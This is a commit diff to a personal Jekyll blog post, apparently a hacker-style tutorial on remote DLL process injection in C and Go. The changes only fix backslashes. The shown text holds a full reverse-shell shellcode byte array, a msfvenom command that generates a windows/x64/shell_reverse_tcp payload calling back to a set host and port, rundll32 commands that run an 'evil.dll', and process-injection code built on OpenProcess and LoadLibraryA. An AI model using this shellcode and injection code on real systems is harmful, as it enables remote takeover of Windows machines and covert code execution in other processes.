

Before and after one commit to timsonner/timsonner.github.io, a Jekyll site: the page built from _posts/2023-07-18-go-remote-dll-process-injection.md, in a window 1280 px wide and 900 px high, scrolled down 2314 px. Shown: the whole window, without its empty margins (24-758 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix backslashes. thank fux no msdvex hax required anymore for markdowm to display properly. woof

````diff
--- a/_posts/2023-07-18-go-remote-dll-process-injection.md
+++ b/_posts/2023-07-18-go-remote-dll-process-injection.md
@@ -71,40 +71,40 @@ Edit the `Path` variable and add an entry for the location of `mingw64\bin`
 int main(int argc, char *argv[])
 {
 	unsigned char shellcode[] =
-		"\\x48\\x31\\xc9\\x48\\x81\\xe9\\xc6\\xff\\xff\\xff\\x48\\x8d\\x05\\xef\\xff"
-		"\\xff\\xff\\x48\\xbb\\x1d\\xbe\\xa2\\x7b\\x2b\\x90\\xe1\\xec\\x48\\x31\\x58"
-		"\\x27\\x48\\x2d\\xf8\\xff\\xff\\xff\\xe2\\xf4\\xe1\\xf6\\x21\\x9f\\xdb\\x78"
-		"\\x21\\xec\\x1d\\xbe\\xe3\\x2a\\x6a\\xc0\\xb3\\xbd\\x4b\\xf6\\x93\\xa9\\x4e"
-		"\\xd8\\x6a\\xbe\\x7d\\xf6\\x29\\x29\\x33\\xd8\\x6a\\xbe\\x3d\\xf6\\x29\\x09"
-		"\\x7b\\xd8\\xee\\x5b\\x57\\xf4\\xef\\x4a\\xe2\\xd8\\xd0\\x2c\\xb1\\x82\\xc3"
-		"\\x07\\x29\\xbc\\xc1\\xad\\xdc\\x77\\xaf\\x3a\\x2a\\x51\\x03\\x01\\x4f\\xff"
-		"\\xf3\\x33\\xa0\\xc2\\xc1\\x67\\x5f\\x82\\xea\\x7a\\xfb\\x1b\\x61\\x64\\x1d"
-		"\\xbe\\xa2\\x33\\xae\\x50\\x95\\x8b\\x55\\xbf\\x72\\x2b\\xa0\\xd8\\xf9\\xa8"
-		"\\x96\\xfe\\x82\\x32\\x2a\\x40\\x02\\xba\\x55\\x41\\x6b\\x3a\\xa0\\xa4\\x69"
-		"\\xa4\\x1c\\x68\\xef\\x4a\\xe2\\xd8\\xd0\\x2c\\xb1\\xff\\x63\\xb2\\x26\\xd1"
-		"\\xe0\\x2d\\x25\\x5e\\xd7\\x8a\\x67\\x93\\xad\\xc8\\x15\\xfb\\x9b\\xaa\\x5e"
-		"\\x48\\xb9\\xa8\\x96\\xfe\\x86\\x32\\x2a\\x40\\x87\\xad\\x96\\xb2\\xea\\x3f"
-		"\\xa0\\xd0\\xfd\\xa5\\x1c\\x6e\\xe3\\xf0\\x2f\\x18\\xa9\\xed\\xcd\\xff\\xfa"
-		"\\x3a\\x73\\xce\\xb8\\xb6\\x5c\\xe6\\xe3\\x22\\x6a\\xca\\xa9\\x6f\\xf1\\x9e"
-		"\\xe3\\x29\\xd4\\x70\\xb9\\xad\\x44\\xe4\\xea\\xf0\\x39\\x79\\xb6\\x13\\xe2"
-		"\\x41\\xff\\x32\\x95\\xe7\\x92\\xde\\x42\\x8d\\x90\\x7b\\x2b\\xd1\\xb7\\xa5"
-		"\\x94\\x58\\xea\\xfa\\xc7\\x30\\xe0\\xec\\x1d\\xf7\\x2b\\x9e\\x62\\x2c\\xe3"
-		"\\xec\\x1c\\x05\\xa8\\x7b\\x2b\\x95\\xa0\\xb8\\x54\\x37\\x46\\x37\\xa2\\x61"
-		"\\xa0\\x56\\x51\\xc9\\x84\\x7c\\xd4\\x45\\xad\\x65\\xf7\\xd6\\xa3\\x7a\\x2b"
-		"\\x90\\xb8\\xad\\xa7\\x97\\x22\\x10\\x2b\\x6f\\x34\\xbc\\x4d\\xf3\\x93\\xb2"
-		"\\x66\\xa1\\x21\\xa4\\xe2\\x7e\\xea\\xf2\\xe9\\xd8\\x1e\\x2c\\x55\\x37\\x63"
-		"\\x3a\\x91\\x7a\\xee\\x33\\xfd\\x41\\x77\\x33\\xa2\\x57\\x8b\\xfc\\x5c\\xe6"
-		"\\xee\\xf2\\xc9\\xd8\\x68\\x15\\x5c\\x04\\x3b\\xde\\x5f\\xf1\\x1e\\x39\\x55"
-		"\\x3f\\x66\\x3b\\x29\\x90\\xe1\\xa5\\xa5\\xdd\\xcf\\x1f\\x2b\\x90\\xe1\\xec"
-		"\\x1d\\xff\\xf2\\x3a\\x7b\\xd8\\x68\\x0e\\x4a\\xe9\\xf5\\x36\\x1a\\x50\\x8b"
-		"\\xe1\\x44\\xff\\xf2\\x99\\xd7\\xf6\\x26\\xa8\\x39\\xea\\xa3\\x7a\\x63\\x1d"
-		"\\xa5\\xc8\\x05\\x78\\xa2\\x13\\x63\\x19\\x07\\xba\\x4d\\xff\\xf2\\x3a\\x7b"
-		"\\xd1\\xb1\\xa5\\xe2\\x7e\\xe3\\x2b\\x62\\x6f\\x29\\xa1\\x94\\x7f\\xee\\xf2"
-		"\\xea\\xd1\\x5b\\x95\\xd1\\x81\\x24\\x84\\xfe\\xd8\\xd0\\x3e\\x55\\x41\\x68"
-		"\\xf0\\x25\\xd1\\x5b\\xe4\\x9a\\xa3\\xc2\\x84\\xfe\\x2b\\x11\\x59\\xbf\\xe8"
-		"\\xe3\\xc1\\x8d\\x05\\x5c\\x71\\xe2\\x6b\\xea\\xf8\\xef\\xb8\\xdd\\xea\\x61"
-		"\\xb4\\x22\\x80\\xcb\\xe5\\xe4\\x57\\x5a\\xad\\xd0\\x14\\x41\\x90\\xb8\\xad"
-		"\\x94\\x64\\x5d\\xae\\x2b\\x90\\xe1\\xec";
+		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
+		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
+		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
+		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
+		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
+		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
+		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
+		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
+		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
+		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
+		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
+		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
+		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
+		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
+		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
+		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
+		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
+		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
+		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
+		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
+		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
+		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
+		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
+		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
+		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
+		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
+		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
+		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
+		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
+		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
+		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
+		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
+		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
+		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";
 
 	HANDLE processHandle;
 	HANDLE remoteThread;
@@ -160,7 +160,7 @@ processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
 **You should also probably change teh payload, cuz ya know random shellcod3z from teh internetz, 1.1.1.1 is a dns server...**
 
 ```
-msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f c -b "\\x00"
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f c -b "\x00"
 ```
 
 ![](/assets/images/assets/images/go-remote-dll-process-injection/example-1-shellcode.png)
@@ -233,7 +233,7 @@ x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
 **Test the DLL...**
 
 ```
-rundll32.exe c:\\evil.dll,DllMain
+rundll32.exe c:\evil.dll,DllMain
 ```
 
 **teh skript kat is summoned...**
@@ -255,7 +255,7 @@ rundll32.exe c:\\evil.dll,DllMain
 #include <windows.h>
 #include <tlhelp32.h>
 
-char evilDLL[] = "C:\\\\evil.dll";
+char evilDLL[] = "C:\\evil.dll";
 unsigned int evilLen = sizeof(evilDLL) + 1;
 
 int main(int argc, char* argv[]) {
@@ -307,7 +307,7 @@ x86_64-w64-mingw32-gcc -O2 example-2.cpp -o example-2.exe -mconsole -I/usr/share
 #include <windows.h>
 #include <tlhelp32.h>
 
-char evilDLL[] = "C:\\\\evil.dll";
+char evilDLL[] = "C:\\evil.dll";
 unsigned int evilLen = sizeof(evilDLL) + 1;
 
 int main(int argc, char* argv[]) {
@@ -383,7 +383,7 @@ const (
 )
 
 var (
-	targetDll          = "C:\\\\evil.dll"
+	targetDll          = "C:\\evil.dll"
 	dllLength          = len(targetDll)
 	kernel32           = syscall.NewLazyDLL("kernel32.dll")
 	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
@@ -623,7 +623,7 @@ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buil
 ## Let's try running rundll32 against our new dll. We have an exported function named GobServer.
 
 ```
-rundll32 c:\\gob-server.dll,GobServer
+rundll32 c:\gob-server.dll,GobServer
 ```
 
 ![](/assets/images/go-remote-dll-process-injection/example-4-gob-server.png)
@@ -664,7 +664,7 @@ const (
 )
 
 var (
-	targetDll          = "C:\\\\gob-server.dll"
+	targetDll          = "C:\\gob-server.dll"
 	dllLength          = len(targetDll)
 	kernel32           = syscall.NewLazyDLL("kernel32.dll")
 	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
````
